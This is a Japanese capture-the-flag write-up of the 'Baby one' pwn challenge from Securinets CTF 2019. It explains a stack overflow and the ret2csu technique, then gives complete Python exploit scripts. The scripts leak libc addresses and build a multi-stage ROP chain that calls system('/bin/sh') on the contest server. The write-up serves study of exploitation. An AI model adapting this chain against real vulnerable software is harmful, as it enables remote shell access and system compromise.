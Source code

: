 # [pwn 975pts] Baby one - Securinets CTF 2019 Quals
64ビットバイナリです．
libcは配布されていません．
```
$ checksec baby1
[*] 'baby1'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```
setbufした後に文字列をwriteし，0x12Cバイトreadします．
しかし，このとき使われるバッファは0x30バイトしか確保されていないため，スタックオーバーフロー脆弱性が存在します．
単にリターンアドレスを書き換えれば良さそうですが，leave, retの前に`xor rdx, rdx`があります．
したがって，ret2libcをしてもrdx，すなわち第3引数の値を変えることができません．

競技中はしばらくつまりましたが，さすがにまだ覚えているので解けます．
ここで使うのが`__libc_csu_init`です．
この関数は最後にrbx, rbp, r12, r13, r14, r15をpopしてくれます．
これだけだとrdxは変わらないのですが，同じ関数に次のような命令があります．
```nasm
loc_4006a0:
mov rdx, r13
mov rsi, r14
mov edi, r15d
call qword ptr [r12 + rbx * 8]
add rbx, 1
cmp rbx, rbp
jnz short loc_4006a0

add rsp, 8
pop rbx
pop rbp
...
```
このように，`r12 + rbx*8`に書かれたアドレスを引数とともにcallしてくれます．
rdxはr13からコピーされるので，先程のガジェットと組み合わせれば関数が呼べます．
今回は簡単のため，次のようにレジスタをセットしましょう．
```
rbx = 0
r12 = &addr_to_function
r15 = arg0
r14 = arg1
r13 = arg2
rbp = 1
```
こうすれば，一度callされた後にjnzを通過して最初に呼び出したガジェットと同じ位置へ戻ります．
関数のアドレスが書かれた場所としてはGOTを持っていますし，`_start`関数へのアドレスがELFにかかれているので，そこを参照すれば`main`が呼ばれ，何度でもオーバーフローを繰り返すことができます．

まずはlibcのバージョンを特定します．
```python
from ptrlib import *

elf = ELF("./baby1")
sock = Socket("51.254.114.246", 1111)
#sock = Socket("127.0.0.1", 4001)
#_ = input()

plt_write = 0x004004b0
plt_read = 0x004004c0
plt_setvbuf = 0x004004e0
plt_resolve = 0x004004a0
rop_pop_rdi = 0x004006c3
rop_pop_rsi_pop_r15 = 0x004006c1
rop_libc_csu_init = 0x004006ba
call_libc_csu_init = 0x004006a0

payload = b'A' * 0x38

payload += p64(rop_libc_csu_init)
payload += p64(0)                # rbx
payload += p64(1)                # rbp --> loop max
payload += p64(elf.got("write")) # r12 --> call [r12]
payload += p64(8)                # r13 --> rdx
payload += p64(elf.got("write")) # r14 --> rsi
payload += p64(1)                # r15 --> rdi

payload += p64(call_libc_csu_init)
payload += b'A' * 8 # add rsp, 8
payload += p64(0)                # rbx
payload += p64(1)                # rbp --> loop max
payload += p64(elf.got("write")) # r12 --> call [r12]
payload += p64(8)                # r13 --> rdx
payload += p64(elf.got("setvbuf"))  # r14 --> rsi
payload += p64(1)                # r15 --> rdi

payload += p64(call_libc_csu_init)

sock.recvline()
sock.send(payload)
addr1 = u64(sock.recv(8))
addr2 = u64(sock.recv(8))
dump("addr1 = " + hex(addr1))
dump("addr2 = " + hex(addr2))

sock.interactive()
```

libcのバージョンが特定できたら，`system('/bin/sh')`を呼び出してシェルを奪います．
```python
from ptrlib import *

elf = ELF("./baby1")
libc = ELF("./libc6_2.23-0ubuntu11_amd64.so")
sock = Socket("51.254.114.246", 1111)
#libc = ELF("/lib64/libc.so.6")
#sock = Socket("127.0.0.1", 4001)
#_ = input()

plt_write = 0x004004b0
plt_read = 0x004004c0
plt_setvbuf = 0x004004e0
plt_resolve = 0x004004a0
rop_pop_rdi = 0x004006c3
rop_pop_rsi_pop_r15 = 0x004006c1
rop_libc_csu_init = 0x004006ba
call_libc_csu_init = 0x004006a0

""" Stage 1 """
payload = b'A' * 0x38

payload += p64(rop_libc_csu_init)
payload += p64(0)                # rbx
payload += p64(1)                # rbp --> loop max
payload += p64(elf.got("write")) # r12 --> call [r12]
payload += p64(8)                # r13 --> rdx
payload += p64(elf.got("write")) # r14 --> rsi
payload += p64(1)                # r15 --> rdi

payload += p64(call_libc_csu_init)
payload += b'A' * 8 # add rsp, 8
payload += p64(0)                # rbx
payload += p64(0)                # rbp --> loop max
payload += p64(0x400018)         # r12 --> call [r12]
payload += p64(0)                # r13 --> rdx
payload += p64(0)                # r14 --> rsi
payload += p64(0)                # r15 --> rdi

payload += p64(call_libc_csu_init)

sock.recvline()
sock.send(payload)
addr = u64(sock.recv(8))
libc_base = addr - libc.symbol("write")
addr_system = libc_base + libc.symbol("system")
addr_binsh = libc_base + next(libc.find("/bin/sh"))
dump("libc base = " + hex(libc_base))

""" Stage 2 """
sock.recvline()

addr_store = elf.symbol("__bss_start") + 8

payload = b'A' * 0x38

payload += p64(rop_libc_csu_init)
payload += p64(0)                # rbx
payload += p64(1)                # rbp --> loop max
payload += p64(elf.got("read"))  # r12 --> call [r12]
payload += p64(8)                # r13 --> rdx
payload += p64(addr_store)       # r14 --> rsi
payload += p64(0)                # r15 --> rdi

payload += p64(call_libc_csu_init)
payload += b'A' * 8 # add rsp, 8
payload += p64(0)                # rbx
payload += p64(0)                # rbp --> loop max
payload += p64(0x400018)         # r12 --> call [r12]
payload += p64(0)                # r13 --> rdx
payload += p64(0)                # r14 --> rsi
payload += p64(0)                # r15 --> rdi

payload += p64(call_libc_csu_init)

payload = payload + b'X' * (0x12c - len(payload))

sock.send(payload)
sock.send(p64(addr_system))

dump("wrote <system> to " + hex(addr_store))

""" Stage 3 """
sock.recvline()

call_libc_csu_init_direct = 0x004006a9

payload = b'A' * 0x38

payload += p64(rop_libc_csu_init)
payload += p64(0)                # rbx
payload += p64(1)                # rbp --> loop max
payload += p64(addr_store)       # r12 --> call [r12]
payload += p64(0)                # r13 --> rdx
payload += p64(0)                # r14 --> rsi
payload += p64(0)                # r15 --> rdi

payload += p64(rop_pop_rdi)
payload += p64(addr_binsh)

payload += p64(call_libc_csu_init_direct)

sock.send(payload)

sock.interactive()
```

# 感想
この手法はret2csuとか呼ばれているらしいです．
競技中は知らなかったので勉強になりました．
